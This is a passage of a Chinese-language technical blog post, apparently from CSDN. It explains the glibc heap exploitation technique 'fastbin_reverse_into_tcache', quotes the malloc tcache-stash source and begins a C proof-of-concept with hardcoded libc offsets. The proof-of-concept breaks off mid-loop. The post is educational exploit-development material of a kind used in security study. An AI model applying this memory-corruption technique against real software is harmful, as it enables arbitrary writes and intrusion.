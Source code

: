 ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f1239437cae44cd3868f878046690477.png)
## fastbin_reverse_into_tcache

calloc 申请内存不会从 tcache 中获取，而是从 bin 中获取。如果取的是fastbin中的，取完后，会将 fast bin 中剩余的 chunk 放入 tcache 中。如果修改要取出的 fast bin 中 chunk 的 fd 指针，当剩余chunk（即写的fd）放入tcache时，则会在 fd + 0x10 地址处写入一个堆地址（或者加密的堆地址，反正值较大）

- 同样要能访问fd，并且fd对应的fd为空或者能够访问才行，不然会一直遍历下去直到为空位置。
-  如果fd 的 fd 指向无效地址，需要在 fast bin 中预留另外 多个 chunk 来填满 tcache 。使得fd进入后tcache填满，不会再去访问fd的fd值

```c
#if USE_TCACHE
	      /* While we're here, if we see other chunks of the same size,
		 stash them in the tcache.  */
	      size_t tc_idx = csize2tidx (nb);
	      if (tcache && tc_idx < mp_.tcache_bins)
		{
		  mchunkptr tc_victim;

		  /* While bin not empty and tcache not full, copy chunks.  */
		  while (tcache->counts[tc_idx] < mp_.tcache_count
			 && (tc_victim = *fb) != NULL)
		    {
		      if (SINGLE_THREAD_P)
			*fb = tc_victim->fd;
		      else
			{
			  REMOVE_FB (fb, pp, tc_victim);
			  if (__glibc_unlikely (tc_victim == NULL))
			    break;
			}
		      tcache_put (tc_victim, tc_idx);
		    }
		}
```
如果是使用 malloc 可以先消耗完 tcache 中的 chunk 然后再触发 stash 机制完成攻击。不过此时tcache没有chunk了，此时如果开了next是加密的话依然会写一个大地址，没有的话那不会写，或者fastbin预留多个chunk，覆写后面进入的一个chunk的fd

### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
size_t getheap()
{
    puts("getheap");
    size_t libc_addr=puts-0x70970;
    size_t* mp_72=libc_addr+0x3b62c8;
    size_t heap=*mp_72;
    return heap;
}
int main()
{    
    size_t* chunkarray[0x10];
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x10);
    }
    size_t* chunk1=malloc(0x10);
    size_t* chunk2=malloc(0x10);
    malloc(0x10);
     for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
```